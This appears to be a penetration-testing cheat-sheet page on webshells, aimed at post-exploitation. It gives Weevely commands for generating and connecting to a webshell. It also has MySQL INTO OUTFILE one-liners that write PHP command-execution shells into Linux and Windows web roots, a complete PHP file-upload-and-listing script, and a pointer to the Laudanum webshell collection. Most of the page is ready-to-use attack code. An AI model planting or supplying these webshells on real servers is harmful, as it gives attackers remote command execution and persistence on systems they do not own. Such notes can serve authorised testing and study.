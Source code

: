 # Webshells

## 01 - Weevely

Unlike the regular reverse/bind shells that we use to recieve a connection. Webshells functions way differently that it doesn't require port forwarding nor a C2 server when sending commands from the attacker. It only requires a foothold to continue on the cyber intrusion.

- Generate a weevely webshell

`$ weevely generate <password> <path>`

- After succesfully uploading on the target's system we can finally move on to post exploitation phase.

`$ weevely <URL> <password>`

Navigate to the **Command and Control** section related to [[Weevely]].

## 02 - Webshells

### 2.1 - MySQL

`mysql> SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`

`mysql> SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE 'C:\\inetpub\\wwwroot\\phpmyadmin\\config\\shell.php';`

`mysql> SELECT "<HTML><BODY><FORM METHOD="GET" NAME="myform" ACTION=""><INPUT TYPE="text" NAME="cmd"><INPUT TYPE="submit" VALUE="Send"></FORM><pre><?php if($_GET['cmd']) {​​system($_GET['cmd']);}​​ ?> </pre></BODY></HTML>" INTO OUTFILE '/var/www/phpMyAdmin/cmd.php'`

### 2.2 - Uploader

`$ cat uploader.php`

---

```php
<html>
    <body>
        <?php
            $path_name = pathinfo($_SERVER['PHP_SELF']);
            $this_script = $path_name['basename'];
        ?>

        <form enctype="multipart/form-data" action="<?php echo $_SERVER['PHP_SELF']; ?>" method="POST">
            File: <input name="file" type="file" /><br />
        <input type="submit" value="Upload" /></form>

        <?php

            if (!empty($_FILES["file"])) {
                if ($_FILES["file"]["error"] > 0) {
                    echo "Error: " . $_FILES["file"]["error"] . "<br>";
                }
                else {
                    echo "Stored file:".$_FILES["file"]["name"]."<br/>Size:".($_FILES["file"]["size"] / 1024)." kB<br/>";
                    move_uploaded_file($_FILES["file"]["tmp_name"],$_FILES["file"]["name"]);
                }
            }

            // open this directory
            $myDirectory = opendir(".");
            // get each entry
            while($entryName = readdir($myDirectory)) {$dirArray[] = $entryName;} closedir($myDirectory);
            $indexCount = count($dirArray);
            echo "$indexCount files<br/>";
            sort($dirArray);

            echo "<table border=1 cellpadding=5 cellspacing=0 class=whitelinks><tr><th>Filename</th><th>Filetype</th><th>Filesize</th></tr>\n";

            for($index=0; $index < $indexCount; $index++) {
                if (substr("$dirArray[$index]", 0, 1) != ".") {
                    echo "<tr>
                    <td><a href=\"$dirArray[$index]\">$dirArray[$index]</a></td>
                    <td>".filetype($dirArray[$index])."</td>
                    <td>".filesize($dirArray[$index])."</td>
                    </tr>";
                }
            }
            echo "</table>";
        ?>
    </body>
</html>
```

### 2.3 - Laudanum

You can navigate to `/usr/share/laudanum` or `/usr/share/webshells` based on what pentest distro you have or you can clone it on github

## References

- [Webshell](https://oscp.infosecsanyam.in/shells/webshell)